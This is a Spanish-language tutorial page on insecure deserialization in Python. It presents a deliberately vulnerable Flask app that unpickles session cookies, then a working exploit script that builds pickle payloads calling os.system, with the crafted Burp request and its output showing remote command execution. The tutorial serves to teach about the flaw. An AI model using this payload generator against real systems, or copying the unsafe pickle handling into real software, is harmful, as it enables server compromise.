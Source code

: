 ```yaml
---
icon: python
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Deserialización Insegura Python

## Pagina Vulnerable Deserialización Insegura en Python

Si nosotros por ejemplo tenemos este codigo de `python` como una pagina por ejemplo:

> app.py

```python
import pickle
import base64
from flask import Flask, request, make_response, render_template, redirect, url_for

app = Flask(__name__)

# Base de datos de usuarios (simulada)
users = {
    "admin": "admin123",
    "user1": "password1",
    "user2": "password2"
}

# Clase del usuario (con deserialización insegura)
class User:
    def __init__(self, username, role):
        self.username = username
        self.role = role

    def __str__(self):
        return f"{self.username} ({self.role})"

@app.route("/")
def index():
    # Obtener la cookie
    session_cookie = request.cookies.get("session")

    if session_cookie:
        try:
            # Deserializar la cookie (VULNERABILIDAD)
            user = pickle.loads(base64.b64decode(session_cookie))
        except Exception as e:
            user = f"Error deserializando: {e}"
    else:
        user = "Invitado"

    return render_template("index.html", user=user)

@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        if username in users and users[username] == password:
            # Crear el objeto de usuario
            user = User(username, "admin" if username == "admin" else "user")

            # Serializar el objeto inseguramente con pickle
            session_data = base64.b64encode(pickle.dumps(user)).decode()

            # Crear la cookie con la sesión serializada
            response = make_response(redirect(url_for("index")))
            response.set_cookie("session", session_data)

            return response
        else:
            return "Credenciales inválidas", 403

    return render_template("login.html")

if __name__ == "__main__":
    app.run(debug=True)
```

Vemos que no valida la entrada que se serializa y la `deserializa` lo que venga de forma insegura, ya que no tiene ninguna medida de seguridad, si entramos en la pagina veremos lo siguiente:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

El usuario por defecto sera el siguiente:

```
admin:admin123
```

Ingresamos las credenciales y abriremos `BurpSuite` para recargar la pagina con la sesion iniciada del usuario user y veremos lo siguiente en la `peticion` con `BurpSuite`:

> Peticion de `BurpSuite`

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVOgAAAAAAAACMA2FwcJSMBFVzZXKUk5QpgZR9lCiMCHVzZXJuYW1llIwFYWRtaW6UjARyb2xllIwFYWRtaW6UdWIu
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Vemos que la `serializacion` esta en `session=` por lo que tendremos que reemplazar su contenido, por otro codigo serializado con el comando que queramos ejecutar.

## Generar Payload Serializado en Base64

Nos crearemos un script en `python3` para generar codigos `serializados`:

> exploitSerial.py

```python
import pickle
import base64
import os
import argparse

class RCE:
    def __init__(self, command):
        self.command = command

    def __reduce__(self):
        return (os.system, (self.command,))

def generate_payload(command):
    """Genera una cookie maliciosa con el comando proporcionado."""
    try:
        payload = base64.b64encode(pickle.dumps(RCE(command))).decode()
        print(f"[+] Payload generado con el comando: {command}")
        print(f"[+] Cookie maliciosa: {payload}")
    except Exception as e:
        print(f"[!] Error generando el payload: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description="Generador de cookies maliciosas con RCE en Flask")
    parser.add_argument("command", help="Comando a ejecutar en el servidor víctima")

    args = parser.parse_args()
    generate_payload(args.command)
```

Ahora lo ejecutaremos de la siguiente forma:

```shell
python3 exploitSerial.py 'touch /var/www/html/text.txt | whoami > /var/www/html/text.txt'
```

Info:

```
[+] Payload generado con el comando: touch /var/www/html/text.txt | whoami > /var/www/html/text.txt
[+] Cookie maliciosa: gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
```

## Enviar Payload al servidor

Ahora este resultado tendremos que pegarlo en la peticion donde `session=` quedando de la siguiente forma:

```
GET / HTTP/1.1
Host: app.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://app.dl/login
Connection: keep-alive
Cookie: session=gASVWQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjD50b3VjaCAvdmFyL3d3dy9odG1sL3RleHQudHh0IHwgd2hvYW1pID4gL3Zhci93d3cvaHRtbC90ZXh0LnR4dJSFlFKULg==
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

Ahora si enviamos la `peticion` veremos lo siguiente en la pagina:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que algo ha sido modificado, por lo que podemos deducir que si ha funcionado correctamente.

Vamos a irnos directamente a la `IP` para ver si el archivo se subio de forma correcta:

```
URL = http://<IP>/text.txt
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que ha funcionado, por lo que podremos generar `payloads` y ejecutar codigo de forma remota.
